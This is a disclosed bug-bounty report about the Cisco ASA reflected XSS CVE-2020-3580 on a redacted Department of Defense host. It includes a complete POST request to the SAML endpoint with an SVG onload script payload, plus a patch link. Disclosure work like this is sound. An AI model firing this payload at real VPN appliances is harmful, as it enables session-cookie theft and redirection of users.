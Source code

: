 # ███████ - XSS - CVE-2020-3580

## Report Details
- **Report ID**: 1243650
- **URL**: https://hackerone.com/reports/1243650
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-24T21:34:35.144Z
- **Disclosed**: 2021-09-29T17:44:43.601Z

## Reporter
- **Username**: pr3r00t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
████ appears to be affected by the Cisco ASA XSS CVE-2020-3580, This vulnerablity is targets the saml service within the VPN. It is triggered via a POST request to /+CSCOE+/saml/sp/acs?tgname=a

## References
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-xss-multiple-FCB3vPZe

## Impact

With this vulnerability, an attacker can for example steal users cookies or redirect users on malicious website.

## System Host(s)
██████████

## Affected Product(s) and Version(s)
Cisco ASA

## CVE Numbers
CVE-2020-3580

## Steps to Reproduce
send a POST request from browser: 

POST /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
Host: █████
Connection: close
sec-ch-ua: " Not;A Brand";v="99", "Google Chrome";v="91", "Chromium";v="91"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 40

SAMLResponse="><svg/onload=alert('xss')>

## Suggested Mitigation/Remediation Actions
Patch Cisco ASA : https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-xss-multiple-FCB3vPZe



## Attachments
No attachments
